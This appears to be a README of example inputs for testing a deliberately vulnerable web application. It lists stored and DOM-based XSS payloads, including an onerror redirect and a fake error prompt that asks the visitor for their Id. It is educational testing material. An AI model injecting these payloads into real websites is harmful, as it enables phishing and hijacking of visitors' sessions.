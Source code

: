 # Examples to test the application

## Try to send some basics values

HTML tags : strong, h1, h2..., input

example : <input type="text" value="whatever" style="color:white; background-color:red"></input>

>Note: Most popular js functions are onerror, onload and onmouseover

## XSS Persistent (stocked) with `onerror`

- `<img src=whatever onerror=alert('youhou')>`
- `<img src=whatever onerror="window.location='https://github.com/fabienAstia/xss-vulnerabilities/tree/main';">`
- `<img src=whatever onerror=console.log("Error is success")>`
- `<img src/onerror=prompt('Sorry,&nbsp;an&nbsp;error&nbsp;was&nbsp;occurred.&nbsp;Please,&nbsp;enter&nbsp;your&nbsp;Id&nbsp;to&nbsp;continue')>`

## XSS DOM-based with link

- `<a onmouseover="alert('youhou')">Click me!</a>`
- `<a onmouseover="document.body.style='color:blue;'">Click me!</a>`
- `<a onmouseover="document.body.style='transform:rotate(180deg);'">Click me!</a>`

> Note: in modern tools and navigators. These not workings :

- `<script>alert('youhou')</script>`
- `<img src/onerror=prompt('Sorry, an error was occurred. Please, enter your Id to continue')>`
- `<component is=script text=alert(1)>`